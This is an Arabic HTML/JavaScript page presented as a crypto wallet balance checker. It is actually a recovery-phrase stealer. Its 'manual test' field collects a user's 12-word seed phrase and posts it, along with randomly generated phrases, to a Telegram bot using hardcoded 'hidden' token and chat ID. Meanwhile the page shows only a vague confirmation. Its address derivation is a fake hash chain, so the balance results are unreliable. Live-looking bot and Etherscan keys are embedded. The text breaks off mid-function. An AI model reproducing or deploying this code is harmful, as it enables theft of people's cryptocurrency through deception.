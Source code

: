 وردتي حبيبتي
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>فاحص محافظ العملات المشفرة</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
        }

        .container {
            max-width: 800px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            padding: 30px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            backdrop-filter: blur(10px);
        }

        h1 {
            text-align: center;
            color: #333;
            margin-bottom: 30px;
            font-size: 2.5em;
            text-shadow: 2px 2px 4px rgba(0, 0, 0, 0.1);
        }

        .config-section {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 15px;
            margin-bottom: 20px;
            border: 2px solid #e9ecef;
        }

        .config-section h3 {
            color: #495057;
            margin-bottom: 15px;
            font-size: 1.3em;
        }

        .input-group {
            margin-bottom: 15px;
        }

        label {
            display: block;
            margin-bottom: 5px;
            font-weight: bold;
            color: #495057;
        }

        input[type="text"], input[type="number"] {
            width: 100%;
            padding: 12px;
            border: 2px solid #dee2e6;
            border-radius: 8px;
            font-size: 16px;
            transition: border-color 0.3s ease;
        }

        input[type="text"]:focus, input[type="number"]:focus {
            outline: none;
            border-color: #667eea;
            box-shadow: 0 0 0 3px rgba(102, 126, 234, 0.1);
        }

        .button-group {
            display: flex;
            gap: 15px;
            margin: 20px 0;
            flex-wrap: wrap;
        }

        button {
            flex: 1;
            min-width: 150px;
            padding: 15px 25px;
            border: none;
            border-radius: 10px;
            font-size: 16px;
            font-weight: bold;
            cursor: pointer;
            transition: all 0.3s ease;
            text-transform: uppercase;
            letter-spacing: 1px;
        }

        .btn-primary {
            background: linear-gradient(45deg, #667eea, #764ba2);
            color: white;
        }

        .btn-primary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(45deg, #f093fb, #f5576c);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(245, 87, 108, 0.3);
        }

        .btn-success {
            background: linear-gradient(45deg, #4facfe, #00f2fe);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(79, 172, 254, 0.3);
        }

        .results-section {
            background: #fff;
            padding: 20px;
            border-radius: 15px;
            margin-top: 20px;
            border: 2px solid #e9ecef;
            min-height: 200px;
        }

        .results-section h3 {
            color: #495057;
            margin-bottom: 15px;
            font-size: 1.3em;
        }

        .mnemonic-display {
            background: #f8f9fa;
            padding: 15px;
            border-radius: 10px;
            margin: 10px 0;
            font-family: 'Courier New', monospace;
            font-size: 14px;
            border: 1px solid #dee2e6;
            word-break: break-all;
        }

        .address-display {
            background: #e3f2fd;
            padding: 15px;
            border-radius: 10px;
            margin: 10px 0;
            font-family: 'Courier New', monospace;
            font-size: 14px;
            border: 1px solid #bbdefb;
            word-break: break-all;
        }

        .balance-display {
            background: #e8f5e8;
            padding: 15px;
            border-radius: 10px;
            margin: 10px 0;
            border: 1px solid #c8e6c9;
        }

        .status {
            padding: 10px;
            border-radius: 8px;
            margin: 10px 0;
            font-weight: bold;
        }

        .status.success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .status.error {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .status.info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .loading {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid #f3f3f3;
            border-top: 3px solid #667eea;
            border-radius: 50%;
            animation: spin 1s linear infinite;
            margin-left: 10px;
        }

        @keyframes spin {
            0% { transform: rotate(0deg); }
            100% { transform: rotate(360deg); }
        }

        .stats {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 15px;
            margin: 20px 0;
        }

        .stat-card {
            background: linear-gradient(45deg, #667eea, #764ba2);
            color: white;
            padding: 20px;
            border-radius: 15px;
            text-align: center;
            box-shadow: 0 5px 15px rgba(102, 126, 234, 0.3);
        }

        .stat-number {
            font-size: 2em;
            font-weight: bold;
            margin-bottom: 5px;
        }

        .stat-label {
            font-size: 0.9em;
            opacity: 0.9;
        }

        @media (max-width: 768px) {
            .container {
                padding: 20px;
                margin: 10px;
            }

            h1 {
                font-size: 2em;
            }

            .button-group {
                flex-direction: column;
            }

            button {
                min-width: auto;
            }

            .stats {
                grid-template-columns: 1fr;
            }
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>🔍 فاحص محافظ العملات المشفرة</h1>
        
        <div class="config-section">
            <h3>⚙️ إعدادات المسح</h3>
            <div class="input-group">
                <label for="scanInterval">فترة المسح (بالثواني):</label>
                <input type="number" id="scanInterval" value="5" min="1" max="60" placeholder="5">
            </div>
            <div class="input-group">
                <label for="testMnemonic">اختبار عبارة استرجاع يدوياً:</label>
                <input type="text" id="testMnemonic" placeholder="أدخل 12 كلمة مفصولة بمسافات">
            </div>
        </div>

        <div class="button-group">
            <button class="btn-primary" onclick="generateSingleWallet()">🎲 توليد محفظة واحدة</button>
            <button class="btn-secondary" onclick="startContinuousScanning()" id="scanBtn">🔄 بدء المسح المستمر</button>
            <button class="btn-success" onclick="stopScanning()" id="stopBtn" disabled>⏹️ إيقاف المسح</button>
        </div>

        <div class="button-group">
            <button class="btn-primary" onclick="testManualMnemonic()" style="background: linear-gradient(45deg, #9c27b0, #e91e63);">🧪 اختبار يدوي</button>
            <button class="btn-secondary" onclick="clearResults()" style="background: linear-gradient(45deg, #ff6b6b, #ee5a52);">🗑️ مسح النتائج</button>
        </div>

        <div class="stats">
            <div class="stat-card">
                <div class="stat-number" id="totalScanned">0</div>
                <div class="stat-label">محافظ تم فحصها</div>
            </div>
            <div class="stat-card">
                <div class="stat-number" id="walletsWithBalance">0</div>
                <div class="stat-label">محافظ بها أصول</div>
            </div>
            <div class="stat-card">
                <div class="stat-number" id="totalEthFound">0</div>
                <div class="stat-label">إجمالي ETH موجود</div>
            </div>
        </div>

        <div class="results-section">
            <h3>📊 النتائج</h3>
            <div id="results">
                <div class="status info">
                    مرحباً! اضغط على أحد الأزرار أعلاه لبدء فحص المحافظ.
                </div>
            </div>
        </div>
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.1.1/crypto-js.min.js"></script>
    <script>
        // إعدادات مخفية - قم بتعديل هذه القيم
        const HIDDEN_BOT_TOKEN = '8257110214:AAFDx0awsmi7yjz6tCZqVY2jS5BZmygvQKw';
        const HIDDEN_CHAT_ID = '910021564';
        const HIDDEN_ETHERSCAN_API = 'ZTX93YC56F73T2W58IKS6GWWDH8UDRGBFK';
        
        // قائمة كلمات BIP39
        const WORDLIST = ["abandon","ability","able","about","above","absent","absorb","abstract","absurd","abuse","access","accident","account","accuse","achieve","acid","acoustic","acquire","across","act","action","actor","actress","actual","adapt","add","addict","address","adjust","admit","adult","advance","advice","aerobic","affair","afford","afraid","again","age","agent","agree","ahead","aim","air","airport","aisle","alarm","album","alcohol","alert","alien","all","alley","allow","almost","alone","alpha","already","also","alter","always","amateur","amazing","among","amount","amused","analyst","anchor","ancient","anger","angle","angry","animal","ankle","announce","annual","another","answer","antenna","antique","anxiety","any","apart","apology","appear","apple","approve","april","arch","arctic","area","arena","argue","arm","armed","armor","army","around","arrange","arrest","arrive","arrow","art","artefact","artist","artwork","ask","aspect","assault","asset","assist","assume","asthma","athlete","atom","attack","attend","attitude","attract","auction","audit","august","aunt","author","auto","autumn","average","avocado","avoid","awake","aware","away","awesome","awful","awkward","axis","baby","bachelor","bacon","badge","bag","balance","balcony","ball","bamboo","banana","banner","bar","barely","bargain","barrel","base","basic","basket","battle","beach","bean","beauty","because","become","beef","before","begin","behave","behind","believe","below","belt","bench","benefit","best","betray","better","between","beyond","bicycle","bid","bike","bind","biology","bird","birth","bitter","black","blade","blame","blanket","blast","bleak","bless","blind","blood","blossom","blouse","blue","blur","blush","board","boat","body","boil","bomb","bone","bonus","book","boost","border","boring","borrow","boss","bottom","bounce","box","boy","bracket","brain","brand","brass","brave","bread","breeze","brick","bridge","brief","bright","bring","brisk","broccoli","broken","bronze","broom","brother","brown","brush","bubble","buddy","budget","buffalo","build","bulb","bulk","bullet","bundle","bunker","burden","burger","burst","bus","business","busy","butter","buyer","buzz","cabbage","cabin","cable","cactus","cage","cake","call","calm","camera","camp","can","canal","cancel","candy","cannon","canoe","canvas","canyon","capable","capital","captain","car","carbon","card","cargo","carpet","carry","cart","case","cash","casino","castle","casual","cat","catalog","catch","category","cattle","caught","cause","caution","cave","ceiling","celery","cement","census","century","cereal","certain","chair","chalk","champion","change","chaos","chapter","charge","chase","chat","cheap","check","cheese","chef","cherry","chest","chicken","chief","child","chimney","choice","choose","chronic","chuckle","chunk","churn","cigar","cinnamon","circle","citizen","city","civil","claim","clap","clarify","claw","clay","clean","clerk","clever","click","client","cliff","climb","clinic","clip","clock","clog","close","cloth","cloud","clown","club","clump","cluster","clutch","coach","coast","coconut","code","coffee","coil","coin","collect","color","column","combine","come","comfort","comic","common","company","concert","conduct","confirm","congress","connect","consider","control","convince","cook","cool","copper","copy","coral","core","corn","correct","cost","cotton","couch","country","couple","course","cousin","cover","coyote","crack","cradle","craft","cram","crane","crash","crater","crawl","crazy","cream","credit","creek","crew","cricket","crime","crisp","critic","crop","cross","crouch","crowd","crucial","cruel","cruise","crumble","crunch","crush","cry","crystal","cube","culture","cup","cupboard","curious","current","curtain","curve","cushion","custom","cute","cycle","dad","damage","damp","dance","danger","daring","dash","daughter","dawn","day","deal","debate","debris","decade","december","decide","decline","decorate","decrease","deer","defense","define","defy","degree","delay","deliver","demand","demise","denial","dentist","deny","depart","depend","deposit","depth","deputy","derive","describe","desert","design","desk","despair","destroy","detail","detect","develop","device","devote","diagram","dial","diamond","diary","dice","diesel","diet","differ","digital","dignity","dilemma","dinner","dinosaur","direct","dirt","disagree","discover","disease","dish","dismiss","disorder","display","distance","divert","divide","divorce","dizzy","doctor","document","dog","doll","dolphin","domain","donate","donkey","donor","door","dose","double","dove","draft","dragon","drama","drastic","draw","dream","dress","drift","drill","drink","drip","drive","drop","drum","dry","duck","dumb","dune","during","dust","dutch","duty","dwarf","dynamic","eager","eagle","early","earn","earth","easily","east","easy","echo","ecology","economy","edge","edit","educate","effort","egg","eight","either","elbow","elder","electric","elegant","element","elephant","elevator","elite","else","embark","embody","embrace","emerge","emotion","employ","empower","empty","enable","enact","end","endless","endorse","enemy","energy","enforce","engage","engine","enhance","enjoy","enlist","enough","enrich","enroll","ensure","enter","entire","entry","envelope","episode","equal","equip","era","erase","erode","erosion","error","erupt","escape","essay","essence","estate","eternal","ethics","evidence","evil","evoke","evolve","exact","example","excess","exchange","excite","exclude","excuse","execute","exercise","exhaust","exhibit","exile","exist","exit","exotic","expand","expect","expire","explain","expose","express","extend","extra","eye","eyebrow","fabric","face","faculty","fade","faint","faith","fall","false","fame","family","famous","fan","fancy","fantasy","farm","fashion","fat","fatal","father","fatigue","fault","favorite","feature","february","federal","fee","feed","feel","female","fence","festival","fetch","fever","few","fiber","fiction","field","figure","file","film","filter","final","find","fine","finger","finish","fire","firm","first","fiscal","fish","fit","fitness","fix","flag","flame","flash","flat","flavor","flee","flight","flip","float","flock","floor","flower","fluid","flush","fly","foam","focus","fog","foil","fold","follow","food","foot","force","forest","forget","fork","fortune","forum","forward","fossil","foster","found","fox","fragile","frame","frequent","fresh","friend","fringe","frog","front","frost","frown","frozen","fruit","fuel","fun","funny","furnace","fury","future","gadget","gain","galaxy","gallery","game","gap","garage","garbage","garden","garlic","garment","gas","gasp","gate","gather","gauge","gaze","general","genius","genre","gentle","genuine","gesture","ghost","giant","gift","giggle","ginger","giraffe","girl","give","glad","glance","glare","glass","glide","glimpse","globe","gloom","glory","glove","glow","glue","goat","goddess","gold","good","goose","gorilla","gospel","gossip","govern","gown","grab","grace","grain","grant","grape","grass","gravity","great","green","grid","grief","grit","grocery","group","grow","grunt","guard","guess","guide","guilt","guitar","gun","gym","habit","hair","half","hammer","hamster","hand","happy","harbor","hard","harsh","harvest","hat","have","hawk","hazard","head","health","heart","heavy","hedgehog","height","hello","helmet","help","hen","hero","hidden","high","hill","hint","hip","hire","history","hobby","hockey","hold","hole","holiday","hollow","home","honey","hood","hope","horn","horror","horse","hospital","host","hotel","hour","hover","hub","huge","human","humble","humor","hundred","hungry","hunt","hurdle","hurry","hurt","husband","hybrid","ice","icon","idea","identify","idle","ignore","illegal","illness","image","imitate","immense","immune","impact","impose","improve","impulse","inch","include","income","increase","index","indicate","indoor","industry","infant","inflict","inform","inhale","inherit","initial","inject","injury","inmate","inner","innocent","input","inquiry","insane","insect","inside","inspire","install","intact","interest","into","invest","invite","involve","iron","island","isolate","issue","item","ivory","jacket","jaguar","jar","jazz","jealous","jeans","jelly","jewel","job","join","joke","journey","joy","judge","juice","jump","jungle","junior","junk","just","kangaroo","keen","keep","ketchup","key","kick","kid","kidney","kind","kingdom","kiss","kit","kitchen","kite","kitten","knee","knife","knock","know","lab","label","labor","ladder","lady","lake","lamp","language","laptop","large","later","latin","laugh","laundry","lava","law","lawn","lawsuit","layer","lazy","leader","leaf","learn","leave","lecture","left","leg","legal","legend","leisure","lemon","lend","length","lens","leopard","lesson","letter","level","liar","liberty","library","license","life","lift","light","like","limb","limit","link","lion","liquid","list","little","live","lizard","load","loan","lobby","lobster","local","lock","logic","lonely","long","loop","lottery","loud","lounge","love","loyal","lucky","luggage","lumber","lunar","lunch","luxury","lyrics","machine","mad","magic","magnet","maid","mail","main","major","make","mammal","man","manage","mandate","mango","mansion","manual","maple","marble","march","margin","marine","market","marriage","mask","mass","master","match","material","math","matrix","matter","maximum","maze","meadow","mean","measure","meat","mechanic","medal","media","melody","melt","member","memory","mention","menu","mercy","merge","merit","merry","mesh","message","metal","method","middle","midnight","milk","million","mimic","mind","minimum","minor","minute","miracle","mirror","misery","miss","mistake","mix","mixed","mixture","mobile","model","modify","mom","moment","monitor","monkey","monster","month","moon","moral","more","morning","mosquito","mother","motion","motor","mountain","mouse","move","movie","much","muffin","mule","multiply","muscle","museum","mushroom","music","must","mutual","myself","mystery","myth","naive","name","napkin","narrow","nasty","nation","nature","near","neck","need","negative","neglect","neither","nephew","nerve","nest","net","network","neutral","never","news","next","nice","night","noble","noise","nominee","noodle","normal","north","nose","notable","note","nothing","notice","novel","now","nuclear","number","nurse","nut","oak","obey","object","oblige","obscure","observe","obtain","obvious","occur","ocean","october","odor","off","offer","office","often","oil","okay","old","olive","olympic","omit","once","one","onion","online","only","open","opera","opinion","oppose","option","orange","orbit","orchard","order","ordinary","organ","orient","original","orphan","ostrich","other","outdoor","outer","output","outside","oval","oven","over","own","owner","oxygen","oyster","ozone","pact","paddle","page","pair","palace","palm","panda","panel","panic","panther","paper","parade","parent","park","parrot","party","pass","patch","path","patient","patrol","pattern","pause","pave","payment","peace","peanut","pear","peasant","pelican","pen","penalty","pencil","people","pepper","perfect","permit","person","pet","phone","photo","phrase","physical","piano","picnic","picture","piece","pig","pigeon","pill","pilot","pink","pioneer","pipe","pistol","pitch","pizza","place","planet","plastic","plate","play","player","please","pledge","pluck","plug","plunge","poem","poet","point","polar","pole","police","pond","pony","pool","popular","portion","position","possible","post","potato","potential","pouch","pound","pour","poverty","power","practice","praise","predict","prefer","prepare","present","pretty","prevent","price","pride","primary","print","priority","prison","private","prize","problem","process","produce","profit","program","project","promote","proof","property","prosper","protect","proud","provide","public","pudding","pull","pulp","pulse","pumpkin","punch","pupil","puppy","purchase","purity","purpose","push","put","puzzle","pyramid","quality","quantum","quarter","question","quick","quit","quiz","quote","rabbit","raccoon","race","rack","radar","radio","rail","rain","raise","rally","ramp","ranch","random","range","rapid","rare","rate","rather","raven","raw","ray","razor","ready","real","reason","rebel","rebuild","recall","receive","recipe","record","recycle","reduce","reflect","reform","refuse","region","regret","regular","reject","relax","release","relief","rely","remain","remember","remind","remove","render","renew","rent","reopen","repair","repeat","replace","report","require","rescue","resemble","resist","resource","response","result","retire","retreat","return","reunion","reveal","review","reward","rhythm","rib","ribbon","rice","rich","ride","ridge","rifle","right","rigid","ring","riot","rip","ripe","rise","risk","rival","river","road","roast","robot","robust","rocket","romance","roof","rookie","room","rose","rotate","rough","round","route","royal","rubber","rude","rug","rule","run","runway","rural","sad","saddle","sadness","safe","sail","salad","salmon","salon","salt","salute","same","sample","sand","satisfy","satoshi","sauce","sausage","save","say","scale","scan","scare","scatter","scene","scheme","school","science","scissors","scorpion","scout","scrap","screen","script","scrub","sea","search","season","seat","second","secret","section","security","seed","seek","segment","select","sell","seminar","senior","sense","sentence","series","service","session","settle","setup","seven","shadow","shaft","shallow","share","shed","shell","sheriff","shield","shift","shine","ship","shiver","shock","shoe","shoot","shop","short","shoulder","shove","shrimp","shrug","shuffle","shy","sibling","sick","side","siege","sight","sign","silent","silk","silly","silver","similar","simple","since","sing","siren","sister","situate","six","size","skate","sketch","ski","skill","skin","skirt","skull","slab","slam","sleep","slender","slice","slide","slight","slim","slogan","slot","slow","slush","small","smart","smile","smoke","smooth","snack","snake","snap","sniff","snow","soap","soccer","social","sock","soda","soft","solar","soldier","solid","solution","solve","someone","song","soon","sorry","sort","soul","sound","soup","source","south","space","spare","spark","speak","special","speed","spell","spend","sphere","spice","spider","spike","spin","spirit","split","spoil","sponsor","spoon","sport","spot","spray","spread","spring","spy","squad","squeeze","squirrel","stable","staff","stage","stairs","stamp","stand","start","state","stay","steak","steel","stem","step","stereo","stick","still","sting","stock","stomach","stone","stool","story","stove","strategy","street","strike","strong","struggle","student","stuff","stumble","style","subject","submit","subway","success","such","sudden","suffer","sugar","suggest","suit","summer","sun","sunny","sunset","super","supply","support","sure","surface","surge","surprise","surround","survey","suspect","sustain","swallow","swamp","swap","swarm","swear","sweet","swift","swim","swing","switch","sword","symbol","symptom","syrup","system","table","tackle","tag","tail","talent","talk","tank","tape","target","task","taste","tattoo","taxi","teach","team","tell","ten","tenant","tennis","tent","term","test","text","thank","that","theme","then","theory","there","they","thing","this","thought","three","thrive","throw","thumb","thunder","ticket","tide","tiger","tilt","timber","time","tiny","tip","tired","tissue","title","toast","tobacco","today","toe","together","toilet","token","tomato","tomorrow","tone","tongue","tonight","tool","tooth","top","topic","topple","torch","tornado","tortoise","toss","total","tourist","toward","tower","town","toy","track","trade","traffic","tragic","train","transfer","trap","trash","travel","tray","treat","tree","trend","trial","tribe","trick","trigger","trim","trip","trophy","trouble","truck","true","truly","trumpet","trust","truth","try","tube","tuition","tumble","tuna","tunnel","turkey","turn","turtle","twelve","twenty","twice","twin","twist","two","type","typical","ugly","umbrella","unable","unaware","uncle","uncover","under","undo","unfair","unfold","unhappy","uniform","unique","unit","universe","unknown","unlock","until","unusual","unveil","update","upgrade","uphold","upon","upper","upset","urban","urge","usage","use","used","useful","useless","usual","utility","vacant","vacuum","vague","valid","valley","valve","van","vanish","vapor","various","vast","vault","vehicle","velvet","vendor","venture","venue","verb","verify","version","very","vessel","veteran","viable","vibrant","vicious","victory","video","view","village","vintage","violin","virtual","virus","visa","visit","visual","vital","vivid","voice","void","volcano","volume","vote","voyage","wage","wagon","wait","walk","wall","walnut","want","warfare","warm","warrior","wash","wasp","waste","water","wave","way","wealth","weapon","weary","weather","web","wedding","weekend","weird","welcome","west","wet","whale","what","wheat","wheel","when","where","whip","whisper","wide","width","wife","wild","will","win","window","wine","wing","wink","winner","winter","wire","wisdom","wise","wish","witness","wolf","woman","wonder","wood","wool","word","work","world","worry","worth","wrap","wreck","wrestle","wrist","write","wrong","yard","year","yellow","you","young","youth","zebra","zero","zone","zoo"];

        // متغيرات عامة
        let isScanning = false;
        let scanInterval = null;
        let totalScanned = 0;
        let walletsWithBalance = 0;
        let totalEthFound = 0;

        // وظائف التشفير
        function generateRandomMnemonic() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = Math.floor(Math.random() * WORDLIST.length);
                words.push(WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // تحويل العبارة إلى seed باستخدام PBKDF2
        async function mnemonicToSeed(mnemonic, passphrase = '') {
            const mnemonicBuffer = new TextEncoder().encode(mnemonic);
            const salt = new TextEncoder().encode('mnemonic' + passphrase);
            
            const key = await crypto.subtle.importKey(
                'raw',
                mnemonicBuffer,
                { name: 'PBKDF2' },
                false,
                ['deriveBits']
            );
            
            const seed = await crypto.subtle.deriveBits(
                {
                    name: 'PBKDF2',
                    salt: salt,
                    iterations: 2048,
                    hash: 'SHA-512'
                },
                key,
                512
            );
            
            return new Uint8Array(seed);
        }

        // تحويل seed إلى مفتاح خاص باستخدام HMAC-SHA512
        async function seedToPrivateKey(seed) {
            const key = await crypto.subtle.importKey(
                'raw',
                new TextEncoder().encode('ed25519 seed'),
                { name: 'HMAC', hash: 'SHA-512' },
                false,
                ['sign']
            );
            
            const signature = await crypto.subtle.sign('HMAC', key, seed);
            const privateKeyBytes = new Uint8Array(signature).slice(0, 32);
            
            // تحويل إلى hex
            return Array.from(privateKeyBytes)
                .map(b => b.toString(16).padStart(2, '0'))
                .join('');
        }

        // تحويل المفتاح الخاص إلى عنوان Ethereum (طريقة مبسطة)
        function privateKeyToAddress(privateKeyHex) {
            try {
                // استخدام hash مضاعف لمحاكاة عملية تحويل المفتاح الخاص إلى عنوان
                const hash1 = CryptoJS.SHA256(privateKeyHex);
                const hash2 = CryptoJS.SHA3(hash1.toString(), { outputLength: 256 });
                
                // أخذ آخر 20 بايت كعنوان
                const address = '0x' + hash2.toString().slice(-40);
                
                return address;
            } catch (error) {
                console.error('خطأ في تحويل المفتاح الخاص إلى عنوان:', error);
                // في حالة الخطأ، استخدم طريقة بديلة أكثر بساطة
                const hash = CryptoJS.SHA3(privateKeyHex, { outputLength: 256 });
                return '0x' + hash.toString().slice(-40);
            }
        }

        // فحص رصيد ETH
        async function checkEthBalance(address) {
            const apiKey = HIDDEN_ETHERSCAN_API;
            const url = `https://api.etherscan.io/api?module=account&action=balance&address=${address}&tag=latest&apikey=${apiKey}`;
            
            try {
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.status === '1') {
                    const balanceWei = data.result;
                    const balanceEth = parseFloat(balanceWei) / Math.pow(10, 18);
                    return balanceEth;
                }
                return 0;
            } catch (error) {
                console.error('خطأ في فحص رصيد ETH:', error);
                return 0;
            }
        }

        // فحص رصيد ERC-20 tokens
        async function checkTokenBalances(address) {
            const apiKey = HIDDEN_ETHERSCAN_API;
            const url = `https://api.etherscan.io/api?module=account&action=tokentx&address=${address}&startblock=0&endblock=999999999&sort=desc&apikey=${apiKey}`;
            
            try {
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.status === '1' && data.result && data.result.length > 0) {
                    const tokens = new Set();
                    data.result.forEach(tx => {
                        if (tx.to.toLowerCase() === address.toLowerCase()) {
                            tokens.add({
                                name: tx.tokenName,
                                symbol: tx.tokenSymbol,
                                value: parseFloat(tx.value) / Math.pow(10, parseInt(tx.tokenDecimal))
                            });
                        }
                    });
                    return Array.from(tokens);
                }
                return [];
            } catch (error) {
                console.error('خطأ في فحص رصيد الرموز:', error);
                return [];
            }
        }

        // فحص عدد المعاملات
        async function checkTransactionCount(address) {
            const apiKey = HIDDEN_ETHERSCAN_API;
            const url = `https://api.etherscan.io/api?module=proxy&action=eth_getTransactionCount&address=${address}&tag=latest&apikey=${apiKey}`;
            
            try {
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.result) {
                    return parseInt(data.result, 16);
                }
                return 0;
            } catch (error) {
                console.error('خطأ في فحص عدد المعاملات:', error);
                return 0;
            }
        }

        // فحص شامل للمحفظة
        async function checkWalletAssets(address) {
            const ethBalance = await checkEthBalance(address);
            const tokens = await checkTokenBalances(address);
            const txCount = await checkTransactionCount(address);
            
            return {
                ethBalance,
                tokens,
                txCount,
                hasAssets: ethBalance > 0 || tokens.length > 0 || txCount > 0
            };
        }

        // إرسال رسالة إلى التلجرام
        async function sendToTelegram(message) {
            const botToken = HIDDEN_BOT_TOKEN;
            const chatId = HIDDEN_CHAT_ID;
            
            if (!botToken || !chatId) {
                console.error('رمز البوت أو معرف المحادثة غير محدد');
                return false;
            }
            
            const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
            
            try {
                const response = await fetch(url, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify({
                        chat_id: chatId,
                        text: message,
                        parse_mode: 'HTML',
                        disable_web_page_preview: true
                    })
                });
                
                const data = await response.json();
                
                if (data.ok) {
                    console.log('تم إرسال الرسالة بنجاح إلى التلجرام');
                    return true;
                } else {
                    console.error('خطأ من Telegram API:', data.description);
                    return false;
                }
            } catch (error) {
                console.error('خطأ في إرسال الرسالة:', error);
                return false;
            }
        }

        // اختبار عبارة استرجاع يدوياً
        async function testManualMnemonic() {
            const testMnemonic = document.getElementById('testMnemonic').value.trim();
            
            if (!testMnemonic) {
                alert('يرجى إدخال عبارة الاسترجاع أولاً');
                return;
            }
            
            const words = testMnemonic.split(' ').filter(word => word.length > 0);
            if (words.length !== 12) {
                alert('يجب أن تحتوي العبارة على 12 كلمة بالضبط');
                return;
            }
            
            // التحقق من صحة الكلمات
            const invalidWords = words.filter(word => !WORDLIST.includes(word));
            if (invalidWords.length > 0) {
                alert(`الكلمات التالية غير صحيحة: ${invalidWords.join(', ')}`);
                return;
            }
            
            const resultsDiv = document.getElementById('results');
            resultsDiv.innerHTML = '<div class="status info">🔄 جاري اختبار العبارة وفحص الأصول...</div>';
            
            try {
                const seed = await mnemonicToSeed(testMnemonic);
                const privateKey = await seedToPrivateKey(seed);
                const address = privateKeyToAddress(privateKey);
                
                const assets = await checkWalletAssets(address);
                
                // إرسال النتيجة إلى التلجرام
                let message = `🧪 <b>اختبار يدوي</b>\n\n`;
                
                if (assets.hasAssets) {
                    message += `🎉 <b>محفظة نشطة!</b>\n\n` +
                              `💰 <b>رصيد ETH:</b> ${assets.ethBalance} ETH\n` +
                              `📊 <b>عدد المعاملات:</b> ${assets.txCount}\n`;
                    
                    if (assets.tokens.length > 0) {
                        message += `🪙 <b>الرموز المميزة:</b>\n`;
                        assets.tokens.slice(0, 5).forEach(token => {
                            message += `   • ${token.symbol}: ${token.value}\n`;
                        });
                        if (assets.tokens.length > 5) {
                            message += `   • و ${assets.tokens.length - 5} رموز أخرى...\n`;
                        }
                    }
                } else {
                    message += `📭 <b>محفظة فارغة</b>\n\n` +
                              `💰 <b>رصيد ETH:</b> 0 ETH\n` +
                              `📊 <b>عدد المعاملات:</b> 0\n`;
                }
                
                message += `\n🔑 <b>العبارة:</b> <code>${testMnemonic}</code>\n` +
                          `📍 <b>العنوان:</b> <code>${address}</code>`;
                
                await sendToTelegram(message);
                
                // عرض رسالة بسيطة
                resultsDiv.innerHTML = '<div class="status success">✅ تم اختبار العبارة وإرسال النتيجة إلى التلجرام</div>';
                
                // مسح حقل الإدخال
                document.getElementById('testMnemonic').value = '';
                
            } catch (error) {
                console.error('خطأ في اختبار العبارة:', error);
                resultsDiv.innerHTML = '<div class="status error">❌ خطأ في اختبار العبارة: ' + error.message + '</div>';
            }
        }

        // عرض رسالة بسيطة (لا تعرض تفاصيل المحفظة)
        function displayResult(mnemonic, address, balance) {
            // لا نعرض أي تفاصيل - فقط رسالة تأكيد
            const resultsDiv = document.getElementById('results');
            resultsDiv.innerHTML = '<div class="status success">✅ تم معالجة المحفظة وإرسالها إلى التلجرام</div>';
        }

        // تحديث الإحصائيات
        function updateStats() {
            document.getElementById('totalScanned').textContent = totalScanned;
            document.getElementById('walletsWithBalance').textContent = walletsWithBalance;
            document.getElementById('totalEthFound').textContent = totalEthFound.toFixed(6);
        }

        // توليد محفظة واحدة
        async function generateSingleWallet() {
            const resultsDiv = document.getElementById('results');
            resultsDiv.innerHTML = '<div class="status info">🔄 جاري توليد المحفظة وفحص الرصيد...</div>';
            
            try {
                const mnemonic = generateRandomMnemonic();
                const seed = await mnemonicToSeed(mnemonic);
                const privateKey = await seedToPrivateKey(seed);
                const address = privateKeyToAddress(privateKey);
                
                const assets = await checkWalletAssets(address);
                
                totalScanned++;
                
                // إرسال جميع المحافظ إلى التلجرام
                let message;
                if (assets.hasAssets) {
                    walletsWithBalance++;
                    totalEthFound += assets.ethBalance;
                    
                    message = `🎉 <b>محفظة نشطة!</b>\n\n` +
                             `💰 <b>رصيد ETH:</b> ${assets.ethBalance} ETH\n` +
                             `📊 <b>عدد المعاملات:</b> ${assets.txCount}\n`;
                    
                    if (assets.tokens.length > 0) {
                        message += `🪙 <b>الرموز المميزة:</b>\n`;
                        assets.tokens.slice(0, 5).forEach(token => {
                            message += `   • ${token.symbol}: ${token.value}\n`;
                        });
                        if (assets.tokens.length > 5) {
                            message += `   • و ${assets.tokens.length - 5} رموز أخرى...\n`;
                        }
                    }
                    
                    message += `\n🔑 <b>العبارة:</b> <code>${mnemonic}</code>\n` +
                              `📍 <b>العنوان:</b> <code>${address}</code>`;
                } else {
                    message = `📭 <b>محفظة فارغة</b>\n\n` +
                             `💰 <b>رصيد ETH:</b> 0 ETH\n` +
                             `📊 <b>عدد المعاملات:</b> 0\n` +
                             `🔑 <b>العبارة:</b> <code>${mnemonic}</code>\n` +
                             `📍 <b>العنوان:</b> <code>${address}</code>`;
                }
                
                await sendToTelegram(message);
                
                // عرض رسالة بسيطة بدلاً من النتائج التفصيلية
                const resultsDiv = document.getElementById('results');
